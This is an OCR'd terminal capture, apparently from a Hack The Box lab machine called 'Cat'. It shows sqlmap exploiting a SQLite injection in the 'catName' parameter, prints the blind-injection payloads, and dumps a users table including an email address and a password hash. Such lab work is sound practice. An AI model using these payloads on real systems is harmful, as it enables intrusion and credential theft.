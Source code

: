```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/files]
└─$ sqlmap -r request.req -p catName --dbms sqlite --level 5 --risk 3 -T users --dump --batch
        ___
       __H__                                                                     
 ___ ___["]_____ ___ ___  {1.8.12#stable}                                        
|_ -| . [(]     | .'| . |                                                        
|___|_  [.]_|_|_|__,|  _|                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:50:01 /2025-02-02/

[14:50:01] [INFO] parsing HTTP request from 'request.req'
[14:50:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=asdf'||(SELECT CHAR(118,76,85,108) WHERE 5131=5131 AND 7518=7518)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=asdf'||(SELECT CHAR(109,117,103,82) WHERE 9542=9542 AND 3953=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[14:50:01] [INFO] testing SQLite
[14:50:01] [INFO] confirming SQLite
[14:50:01] [INFO] actively fingerprinting SQLite
[14:50:01] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[14:50:01] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:50:01] [INFO] retrieved: CREATE TABLE users (     user_id INTEGER PRIMARY KEY,     username VARCHAR(255) NOT NULL,     email VARCHAR(255) NOT NULL,     password VARCHAR(255) NOT NULL )
[14:50:38] [INFO] fetching entries for table 'users'                                                                                                                                                                                        
[14:50:38] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'                                                                                                                                                
[14:50:38] [INFO] retrieved: 11                                                                                                                                                                                                             
[14:50:38] [INFO] retrieved: axel2017@gmail.com                                                                                                                                                                                             
[14:50:42] [INFO] retrieved: d1bbba3670feb9435c9841e46e60ee2f                                                                                                                                                                               
[14:50:49] [INFO] retrieved: 1                                                                                                                                                                                                              
[14:50:49] [INFO] retrieved: axel                                                                                                                                                                                                           
```